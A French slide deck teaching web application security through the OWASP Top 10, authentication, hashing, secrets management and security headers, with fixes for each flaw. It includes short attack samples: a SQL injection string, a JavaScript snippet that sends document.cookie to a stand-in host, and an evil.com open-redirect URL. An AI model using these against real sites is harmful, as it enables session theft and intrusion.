# Sécurité des applications WEB

## Risques et menaces

Par [Valentin Brosseau](https://github.com/c4software) / [@c4software](http://twitter.com/c4software)

---

## Pour vous, la sécurité c’est quoi ?

---

## Des découvertes de failles tous les jours !

---

### Des exemples en tête ?

---



---



---



---



---



---



---



---



---



---

[Top50 du nombre de vulnérabilités par le nombre de produits des marques](https://www.cvedetails.com/top-50-vendors.php)

---

### Comment se tenir à jour ?

#### Prévenir plutôt que guérir…

---

### Des sites à surveiller

- [CISA (anciennement US-CERT)](https://www.cisa.gov/)
- [The Hacker News](https://thehackernews.com/)
- [Zataz](https://www.zataz.com/)
- [Reddit NetSec](https://www.reddit.com/r/netsec/)
- [Next INpact](https://www.nextinpact.com/) (~payant)
- [CERT-FR (ANSSI)](https://www.cert.ssi.gouv.fr/)
- Google Actu

Vous en avez d’autres en tête ?

---

### 3 Grandes catégories de risques

- **Confidentialité** : Risque de divulgation d’informations sensibles (ex. fuite de données personnelles).
- **Intégrité** : Risque de modification non autorisée de données ou de code (ex. injection SQL, XSS).
- **Disponibilité** : Risque de rendre un service indisponible (ex. attaque DDoS, ransomware).

---

### Le prix de la sécurité

- Impact fonctionnel
- Limitation de l'expérience utilisateur (UX)
- Impact financier
- Impact réputationnel

---

### Les facteurs d'expositions



---

#### La sécurité informatique dans une application c'est un « équilibre »

Entre protection et utilisabilité

---

### L'insécurité à un coût

À votre avis ?

---

# 4.45 Millions de dollars

Coût moyen mondial d'une violation de données en 2023 selon IBM Security

Source: Cost Of Data Breach - IBM Security 2023

---

### Un exemple… Facebook

---



---



---

### Un impact qui peut-être globalisé

[https://twitter.com/awlnx/status/1445073290708533258?s=09](https://twitter.com/awlnx/status/1445073290708533258?s=09)

---

### Et si je ne fais rien !?

- Volontaire !
- Involontaire ?

---



---

### Une petite histoire d'imprimante…

---

### Intégrer la sécurité à toutes les étapes

La sécurité c’est un état d’esprit à intégrer.

C’est aussi votre métier

- Réseau ?
- Développeur ?
- À votre avis ? Qui doit travailler la sécurité ?

---

### Les deux!

---



---

### Améliorer la sécurité

- Dès la conception
- Comprendre et avoir en tête les règles

---

## Les grandes catégories à connaître

- Les mots de passe (multi-facteurs, complexité, hashage).
- Les failles dans le code (injections, XSS, CSRF, etc.).
- Les failles dans les configurations (serveur, application, etc.).
- Le social engineering (le maillon faible, l'humain).

---

## Assurer la qualité

s'assurer une qualité continue du code

- 10 règles à connaitre (OWASP).
- Des tests unitaires.
- Une analyse automatique du code (SonarQube).

---

## L'authentification, un point clé

- **Mots de passe** : Complexité, hachage, salage.
- **Authentification à plusieurs facteurs** : Double authentification, biométrie, OTP.
- **Sécurisation des mots de passe** : Bcrypt, Argon2, Scrypt.
- **Sécurisation des sessions** : JWT, Cookies sécurisés.
- **Authentification unique** : OAuth, OpenID (SSO, Single Sign-On).

---

## SSO (Single Sign-On) : Authentification unique. Est un risque potentiel.

À votre avis pourquoi ?

---

## SSO (Single Sign-On) : Authentification unique. Est un risque potentiel.

Risques :

- Accès à plusieurs services avec un seul compte.
- Un seul compte à pirater pour accéder à plusieurs services.

Solution :

- Double authentification (2FA, MFA).

---

## 10 grandes catégories

- **Injection** ;
- **Violation de Gestion d’Authentification et de Session** ;
- **Cross-Site Scripting (XSS)** ;
- **Références directes non sécurisées à un objet** ;
- **Mauvaise configuration Sécurité** ;
- **Exposition de données sensibles** ;
- **Manque de contrôle d’accès au niveau fonctionnel** ;
- **Falsification de requête intersite (CSRF)** ;
- **Utilisation de composants avec des vulnérabilités connues** ;
- **Redirections et Renvois non validés**.

---

<fieldset>
  <legend>Le risque, la multiplication des failles</legend>
  <p>
  Plus vous avez de failles, plus vous avez de risques. C'est là que la sécurité devient un enjeu majeur. Car plus le nombre de failles est importantes plus <b>la surface d'attaque</b> est grande.
  </p>
</fieldset>

---

### Open Web Application Security Project (OWASP)

#### Les dix risques par ordre de dangerosité

---

### Le Top10 Web

---

- A01:2021-Contrôles d'accès défaillants ;
- A02:2021-Défaillances cryptographiques ;
- A03:2021-Injection ;
- A04:2021-Conception non sécurisée ;
- A05:2021-Mauvaise configuration de sécurité ;
- A06:2021-Composants vulnérables et obsolètes ;
- A07:2021-Identification et authentification de mauvaise qualité ;
- A08:2021-Manque d'intégrité des données et du logiciel ;
- A09:2021-Carence des systèmes de contrôle et de journalisation ;
- A10:2021-Falsification de requête côté serveur ;

---

### Analyse d'une situation



---

### L'injection

Risque d’injection SQL, Shell...

---

### La défaillance cryptographique

Risque de casser / usurper une authentification ou une session. Comprends notamment le vol de session ou la récupération de mots de passe.

- Données sensibles en claire.
- Mots de passe en claire.
- Mots de passe mal hachés.

---

### Conception non sécurisée / Exposition de données sensibles

Conception d'une application sans prise en compte de la sécurité.

- Données en claire.
- Manque de contrôle d'accès.
- Manque de contrôle de saisie.
- Manque de contrôle de type (XSS, CSRF).
- Absence d'anti-bots (captcha).
- Utilisation d'une question secrète.
- Réservation de place sans accompte.

---

### Mauvaise configuration de la sécurité

Manque de validation des types de paramètres, accès trop facile aux ressources non accessibles au public (cloud), configuration incomplète ou trop permissive, messages d'erreurs trop détaillés.

- Accès à des ressources non publiques.
- Messages d'erreurs trop détaillés.
- Filtrage absent ou incomplet (filter_input, strip_tags, htmlspecialchars, htmlentities, etc.).
- En-têtes de sécurité manquants (CSP, HSTS, X-Frame-Options, etc.).
- Services inutiles activés.

---

### Utilisation de composants avec des vulnérabilités connues

Utilisation de composants tiers vulnérables.

- CMS non à jour.
- Librairies non à jour.
- Apache non à jour.
- PHP non à jour.
- MySQL non à jour.

---

### Identification et authentification de mauvaise qualité

Applications n’exécutent pas de manière correcte les fonctions liées à la gestion des sessions ou à l’authentification des utilisateurs

- Absence de double authentification.
- Absence de règles de mots de passe (complexité, durée de vie, longueur, etc).
- Mot de passe par défaut (admin/admin, root/root).
- Utilisation d'id dans l'url (session hijacking).

---

### Manque d’intégrité des données et du logiciel

Cette catégorie englobe les codes et infrastructures qui ne sont pas protégés contre les violations d’intégrité.

- Absence de vérification de l'intégrité des données (validation d'une mise à jour).
- Absence de vérification de l'intégrité du logiciel (signature, hashage, etc).
- Rejeu de requêtes possibles (absence de CSRF).

---

### Absence de logs serveur et de surveillance

Absence de logs serveur et de surveillance des activités de l’application.

- Absence de logs serveur.
- Absence de logs applicatifs.
- Manque de supervision.

---

**L'observabilité** est un concept qui permet de mesurer et d'analyser le comportement d'un système. On parlera de **traçabilité**, de logs, de monitoring, de métriques, etc.

La **traçabilité** est un élément clé de la sécurité. Elle permet de savoir qui a fait quoi, quand et comment.

---

### Falsification de requête côté serveur

Elle permet à un hacker d’inciter l’application côté serveur à envoyer des requêtes à un endroit non prévu.

- Absence de vérification de l'origine de la requête.
- Absence de vérification de l'origine de l'utilisateur.

---



---

L'objectif est souvent de ralentir l'attaquant. Afin de le décourager.

---

#### Avec OWASP on parle de

### Vulnérabilité, et non de risque

---

### Mais, une faille c’est quoi ?



---

### Les types de failles

- L’humain (Social Engineering)
- D'accès (physique)
- Applicatif (Hack)
- L’argent (à quel montant une personne vous donne l’information ?)

---

### Le Social Engineering

Les gens sont souvent trop confiants.

[Exemple SECTF à la DefCon](https://www.youtube.com/watch?v=-FSLaHKoCNE)

[Call Recreation (@5min, @11min30)](https://share.vidyard.com/watch/i46XF6N6rpR9KMaorihFQw)

---

### Les outils autour d’OWASP

- [OWASP Juice Shop (Formation, JavaScript)](https://owasp.org/www-project-juice-shop/)
- [WebGoat (Formation, Java)](https://owasp.org/www-project-webgoat/)
- [ZAP - Zed Attack Proxy (Audit, remplace WebScarab)](https://www.zaproxy.org/)
- [OWASP Testing Guide (Guide de test de sécurité)](https://owasp.org/www-project-web-security-testing-guide/)
- [OWASP Code Review Guide (Méthode d'audit de code)](https://owasp.org/www-project-code-review-guide/)
- [OWASP Dependency-Check (Vérification des composants vulnérables)](https://owasp.org/www-project-dependency-check/)

---

Un instant ✋

---

🔐 L'authentification 🔐

---

Crypter ≠ Hasher

---

Quelle est la différence ?

---

- Crypter => Réversible (comme Canal+).
- Hasher => Non réversible (comme le steak haché).

---

## L'authentification forte

- MFA (Multi-Factor Authentication)
- 2FA (Two-Factor Authentication)
- OTP (One-Time Password)

---

## 3 formes d'authentification

- **Mémorielle** qui représente une chose que l'intéressé connaît (un secret),
- **Matérielle** qui se réfère à quelque chose qu'il possède (un objet),
- **Corporelle** qui utilise un trait physique de l'utilisateur (une biométrie).

## Des outils

- Mot de passe : Un mot de passe avec un niveau de sécurité suffisant (longueur, caractères spéciaux, majuscules, minuscules, chiffres).
- Application : OTP (One Time Password) : SMS, Google Authenticator, Authy, Yubikey.
- Objet physique : U2F (Universal 2nd Factor) : Clé USB, Yubikey.
- Biométrie : Empreinte digitale, Reconnaissance faciale.

---

- Permets de sécuriser les mots de passe en ajoutant **une couche de sécurité supplémentaire**.
- Via un secret partagé entre la personne **physique** et le site/application.

---

### Supply Chain Attacks

#### Attaque ciblant les dépendances logicielles

---

Les dépendances logicielles sont partout dans nos applications (nuget, composer, npm, pip, etc.), mais également sur nos serveurs (apt, yum, docker, etc).

---

### Exemple d'attaque

- Une dépendance est compromise (par un attaquant ou un développeur malveillant).
- Un malware est injecté dans la dépendance.
- Le malware est distribué via la dépendance.
- Le malware s'exécute sur les systèmes des utilisateurs de la dépendance (serveur ou poste de travail en fonction du type de dépendance).

---

### On connait les failles

#### Comment on les corrige ?

---

## Les failles

OWASP donne la liste des grandes catégories de failles. Entrons dans le détail technique.

---

### L'Injection

```sql
SELECT * FROM client WHERE id='" . $_GET["id"] . "'
```

```html
http://exemple.com/liste?id='or '1'='1
```

---

### Correction

```php
$stmt = $pdo->prepare("SELECT * FROM client WHERE id=?");
$stmt->bindParam(1, $_GET["id"]);
$stmt->execute();
```

---

### Accès non autorisé à une session

```html
http://exemple.com/?jsessionid=A2938298D293
```

---

Vol du cookie de session

```javascript
// Exemple de vol d'un cookie de session en JavaScript
var img = new Image();
img.src = "http://exemple.com/?jsessionid=" + document.cookie;
document.body.appendChild(img);
```

---

### Cross-Site Scripting (XSS)

Exécution de code JavaScript sans validation.

- XSS Stocké (base de données).
- XSS Réfléchi (URL / Lien).

---

```html
Votre Nom : <input type="text" name="nom" value="" />
```

```js
echo "Bonjour " . $_POST['nom'];
```

---

### Correction

```php
$nom = filter_input(INPUT_POST, 'nom', FILTER_SANITIZE_FULL_SPECIAL_CHARS);
// ou
$nom = strip_tags($_POST['nom']);
// ou (recommandé pour l'affichage)
$nom = htmlspecialchars($_POST['nom'], ENT_QUOTES, 'UTF-8');
```


---

### A4 - Références directes non sécurisées à un objet

```
http://exemple.com/liste?mode=client
```

Si je change client par … admin ?

---

```sql
SELECT * FROM client where mode=?
```

```php
$stmt->bindParam(1, $mode);
```

---

- Toujours valider les entrées utilisateurs.
- Toujours vérifier les droits de l'utilisateur.

```php
if ($_SESSION['mode'] == 'client') {
    // On peut charger la ressource
} else if ($_SESSION['mode'] == 'admin') {
    // On peut charger la ressource
} else {
    // On ne peut pas charger la ressource
}
```

---

### Mauvaise configuration Sécurité

- Console d’administration disponible sans authentification en ligne
- Listage des répertoires ([Exemple](https://www.google.fr/search?dcr=0&q=intitle%3A%22Index%20of%22))
- Exemples de code non supprimés

---

### Exposition de données sensibles

- Espace client sans SSL/TLS.
- Mot de passe en clair (**ou en MD5, SHA1**) dans la base de données.
- Sauvegarde de données inutiles.
- Données sensibles dans les logs.
- Données sensibles en clair dans la base de données.
- Absence de chiffrement des données au repos.

---

- Utilisation de HTTPS (SSL/TLS).

```php
password_hash('admin', PASSWORD_DEFAULT);
password_verify('admin', $hash);
```

---

### Manque de contrôle d’accès au niveau fonctionnel

- Page d’admin accessible avec un compte utilisateur
- Mode non filtré (similaire à l’exemple mode={client,admin})

---

Condition d'accès dans le code

```php
if(SessionUtilisateur::estAdmin()) {
    // On peut charger la ressource
} else {
    // On ne peut pas charger la ressource
}
```

---

### Falsification de requête intersite (CSRF)

- Rejeu de requête déjà joué.
- Attaque de type brute force.
- Exécution de requête à l’insu de l’utilisateur (exemple : déconnexion / connexion sur un site tierce).

---

#### Comment le bloquer ?

Ajoutez un identifiant/jeton dans la requête, unique et non réutilisable

⚠️ Parlons-en !

---

Ajouter un jeton unique dans les formulaires.

```php
<input type="hidden" name="_token" value="{{ csrf_token() }}">

// Côté PHP
if (isset($_POST['_token']) && $_POST['_token'] == $_SESSION['_token']) {
    // On peut traiter la requête
} else {
    die();
}
```

---

### Utilisation de composants avec des vulnérabilités connues

- CMS non à jour.
- Apache non patchés.
- Librairies XYZ non à jour.
- PHP non à jour.
- MySQL non à jour.

---

### Mauvaise conception

- Absence d'anti-bots.

Utilisation de captcha (Google Recaptcha par exemple).

```html
<script src="https://www.google.com/recaptcha/api.js" async defer></script>
<div class="g-recaptcha" data-sitekey="your_site_key"></div>

// Côté PHP
if (isset($_POST['g-recaptcha-response'])) {
    // On peut traiter la requête
} else {
    die();
}
```

---

Utilisation d'une question secrète :

- Car faible possibilité de réponse (peu de couleurs, peu de réponses possibles, peu de dates, etc).

---

### Redirections et Renvois non validés

- Utilisation de votre site comme « masque » dans du phishing

```
http://www.shop-vdt.com/login.php?goto=evil.com/login
```

[En vidéo](https://www.youtube.com/watch?v=ibFs8FZxzu4)

---

### La gestion des secrets

::: danger Ne jamais écrire en dur
Les clés API, mots de passe de BDD, tokens et certificats ne doivent **jamais** figurer dans le code source.
:::

- **Variables d'environnement** : Utiliser un fichier `.env` en local (hors git) et des variables d'environnement sur le serveur.
- **Ne pas versionner** : Ajouter `.env` au `.gitignore`. Un secret commité est un secret exposé.
- **Rotation** : Changer régulièrement les mots de passe et clés API en cas de fuite.

---

```php
// Mauvais
$apiKey = "sk-1234567890abcdef";

// Bon
$apiKey = getenv('API_KEY');
```

---

#### Vérifier avant de commit

Utilisez des outils comme **GitLeaks** ou **TruffleHog** pour scanner l'historique Git.

---

### Sécuriser les API et les tokens

- **JWT** : Ne stockez jamais d'informations sensibles dans le payload (Base64). Signez-le avec une clé forte et définissez une expiration courte.
- **Rate Limiting** : Protégez vos endpoints d'authentification et d'API contre le brute-force.
- **CORS** : Ne laissez jamais `Access-Control-Allow-Origin: *` sur une API privée.
- **Ne jamais passer de secrets en GET** : Les paramètres d'URL restent dans l'historique du navigateur et les logs serveur.

---

```php
// ❌ Token dans l'URL
// https://api.exemple.com/user?token=eyJhbGci...

// Token dans le header Authorization
$token = str_replace('Bearer ', '', $headers['Authorization'] ?? '');
```

---

#### Stocker un JWT

`localStorage` (risque XSS)  
Cookie `HttpOnly` + `Secure` + `SameSite`

---

### Les headers de sécurité HTTP

Premier rempart côté navigateur, ils se configurent côté serveur.

| Header | Rôle |
|---|---|
| `Content-Security-Policy` (CSP) | Empêche l'exécution de scripts inline et limite les sources de contenu. |
| `Strict-Transport-Security` (HSTS) | Force le navigateur à n'utiliser que HTTPS. |
| `X-Frame-Options` | Empêche le clickjacking (`DENY`, `SAMEORIGIN`). |
| `X-Content-Type-Options` | Empêche le navigateur de deviner le type MIME (`nosniff`). |

---

```php
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
header("Strict-Transport-Security: max-age=31536000; includeSubDomains");
header("X-Frame-Options: DENY");
header("X-Content-Type-Options: nosniff");
header("Referrer-Policy: strict-origin-when-cross-origin");
```

---

### Les cookies sécurisés

Quand vous posez un cookie de session :

- `HttpOnly` : Empêche JavaScript d'y accéder (protection XSS).
- `Secure` : N'envoie le cookie que sur HTTPS.
- `SameSite=Strict` (ou `Lax`) : Protège contre le CSRF.

---

```php
setcookie('session', $token, [
    'expires' => time() + 3600,
    'path' => '/',
    'secure' => true,
    'httponly' => true,
    'samesite' => 'Strict'
]);
```

---

### DevSecOps et CI/CD sécurisé

Intégrer la sécurité dès la phase de développement (_shift-left_).

- **SAST** : SonarQube, Semgrep, CodeQL (analyse statique du code).
- **SCA** : Snyk, Dependabot, OWASP Dependency-Check (dépendances vulnérables).
- **Scan de secrets** : GitLeaks, TruffleHog dans la pipeline.
- **Tests sécurité** : ZAP en mode headless pour détecter les régressions.

---

```yaml
# Exemple conceptuel de pipeline CI
stages:
  - build
  - test
  - security

sast:
  stage: security
  script:
    - sonar-scanner

dependency_check:
  stage: security
  script:
    - dependency-check.sh --project MonApp --scan .

secret_detection:
  stage: security
  script:
    - gitleaks detect --source .
```

---

#### Pre-commit hook

Bloquer les secrets **avant même la CI** :

```bash
# .git/hooks/pre-commit
gitleaks protect --staged
```

---

### OWASP un classement qui évolue



[Source](https://owasp.org/www-project-top-ten/)

---

## Zoom sur les mots de passe

- Un mot de passe ne doit jamais être stocké en claire.
- Un mot de passe doit être haché (non réversible).
- Un mot de passe doit être salé (ajout d’une chaîne aléatoire).
- Un mot de passe seul n'est souvent pas suffisant (Double authentification).

---

## Principes de base



---

## Le sel

- Peut-être différent pour chaque utilisateur.
- Peut-être global pour tous les utilisateurs.

---

## Le bcrypt

- Intègre le sel automatiquement.
- Intègre un coût (nombre d'itération) configurable.
- Utilise Blowfish comme algorithme de base (pas SHA-256).
- Alternatives modernes : Argon2, Scrypt.

---

<fieldset>
  <legend>Les mots de passe</legend>
  <p>
    Un mot de passe ne doit jamais être stocké en clair. Il doit être haché (non réversible) et salé (ajout d'une chaîne aléatoire).
  </p>

  <p>
    Le sel doit être unique pour chaque utilisateur (recommandation actuelle). Celui-ci doit être stocké avec le hash et sera utilisé pour vérifier le mot de passe.
  </p>

  <p>
    Le bcrypt est un algorithme de hachage qui intègre le sel, le coût et utilise Blowfish. Argon2 est recommandé comme alternative moderne (gagnant du Password Hashing Competition 2015).
  </p>
</fieldset>

---

## Plusieurs formes d'authentification

- **Mémorielle** qui représente une chose que l'intéressé connaît (**un secret**),
- **Matérielle** qui se réfère à quelque chose qu'il possède (**un objet**),
- **Corporelle** qui utilise un trait physique de l'utilisateur (**une biométrie**).

---

## La double authentification

- **Mot de passe :** chaîne de caractère, chiffre, symbole.
- **Application :** OTP (One Time Password) : SMS, Google Authenticator, Authy, Yubikey.
- **Objet physique :** U2F (Universal 2nd Factor) : Clé USB, Yubikey.
- **Biométrie :** Empreinte digitale, Reconnaissance faciale.

---

- Permets de sécuriser les mots de passe en ajoutant une couche de sécurité supplémentaire.
- Via un secret partagé entre la personne **physique** et le site.

---

## Étape 2 : Le réseau

---



---

### IPS (Intrusion Prevension Systeme)

- Bloque **automatiquement** les attaques
- Non fiable à 100%
- Peu discret

---

### IDS (Intrusion Detection Systeme)

- Analyse
- Repère
- Averti



---

### Comment réduire le risque ?

- Sensibilisations / Formations continues
- Revue de code (peer review, code review)
- Tests d'intrusions (pentests)
- Sécurité lors du recrutement
- Sécurité dès la conception du projet (Security by Design)
- Suivi des bonnes pratiques (ex. OWASP)
- Analyse statique du code (SAST)
- Analyse dynamique du code (DAST)
- Gestion des dépendances et CVE

---

### Pourquoi il faut se battre (en interne) ?

- Résistance au changement
- ERP / CMS
- La sécurité est vue comme un frein, pas une fonctionnalité
- Déni de la réalité
- Multitude de librairies
- Développement externe (presta, stagiaires …)

---

### Se former

#### En continu

- [Le Hack](https://lehack.org/fr) / [Hack In Paris](https://hackinparis.com/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [ANSSI](https://www.ssi.gouv.fr/)
- Internet (blogs, forums, newsletters)
- Certifications (OSCP, CEH, CompTIA Security+)
- Appliquer les bonnes pratiques tout le temps !

---

#### Vous êtes la première ligne d’informations

Par deux, collecter une actualité récente « sur un problème de sécurités ».


Lien : [https://forms.gle/zXBhF61uKxtHh6Ma7](https://forms.gle/zXBhF61uKxtHh6Ma7)

---

### Des questions ?
